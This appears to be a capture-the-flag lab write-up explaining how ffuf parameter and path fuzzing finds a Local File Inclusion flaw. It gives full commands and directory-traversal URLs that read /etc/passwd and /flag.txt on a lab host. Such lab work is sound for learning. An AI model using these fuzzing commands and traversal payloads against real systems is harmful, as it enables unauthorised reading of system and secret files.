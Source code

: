 # Automated Scanning File Inclusion Write Up

**Goal**: Use Local File Inclusion (LFI) to read the contents of `/flag.txt`

## Steps
### Step 1: Parameter Fuzzing

**Purpose**: To discover which parameter is vulnerable to LFI. LFI vulnerabilities occur when a web application uses user-supplied input to construct a file path. The attacker can then manipulate this input to include files they shouldn't have access to.

```bash
ffuf -w burp-parameter-names.txt -u http://83.136.252.66:33462/index.php?FUZZ=value -fs 2309
```
`-w burp-parameter-names.txt`: Specifies the wordlist to use. This file contains a list of common parameter names (e.g., page, include, file, view).

`-u http://83.136.252.66:33462/index.php?FUZZ=value`: The target URL. FUZZ is a placeholder that ffuf will replace with each word from the wordlist. The value is just a dummy value.

`-fs 2309`: Filters results based on file size. This means ffuf will exclude any responses with a file size of 2309 bytes. The goal is to identify responses with different sizes, which might indicate a successful inclusion or a different behavior when a specific parameter is used.

![image](https://github.com/user-attachments/assets/bb3e2df8-15a8-4b37-88e2-83cfbcfaefad)


**Result**: view was identified as a potentially vulnerable parameter.

### Step 2: Path Fuzzing
**Purpose**: To find the correct path to a known file, using directory traversal.
```bash
ffuf -w LFI-Jhaddix.txt:FUZZ -u http://83.136.252.66:33462/index.php?view=FUZZ -fs 1935
```
`-w LFI-Jhaddix.txt:FUZZ`: Uses the LFI-Jhaddix.txt wordlist. This wordlist contains various paths and payloads designed to exploit LFI vulnerabilities (e.g., ../../../../etc/passwd).

`-u http://83.136.252.66:33462/index.php?view=FUZZ`: Uses the view parameter (identified in the previous step) and replaces FUZZ with entries from the `LFI-Jhaddix.txt` wordlist.

`-fs 1935`: Filters out results with a size of 1935. This helps to narrow down potentially successful LFI attempts by looking for responses that differ in size.

**Result**: Several paths to `/etc/passwd` were found. This confirms the LFI vulnerability and indicates how many directory traversal levels are needed to reach the root directory.

![image](https://github.com/user-attachments/assets/93a2551d-48ec-4ca7-ae78-88756480926e)


### Step 3: Manual Verification and Reading /etc/passwd
**Purpose**: To manually confirm the LFI and understand how the file path is constructed
```url
http://83.136.252.66:44551/index.php?view=../../../../../../../../../../../../../../../../../../../../../../etc/passwd
```
You use the path identified by ffuf to read `/etc/passwd`. This step validates the LFI and provides information about the system.

### Step 4: Reading /flag.txt
**Purpose**: To exploit the LFI to read the target file.
```url
http://83.136.252.66:44551/index.php?view=../../../../../../../../../../../../../../../../../../../../../../flag.txt
```

### Conclusion
You used ffuf to automate the process of finding both the vulnerable parameter and the correct path to exploit the LFI and then manually verified the vulnerability. By adjusting the path, you were able to read the contents of `/flag.txt`

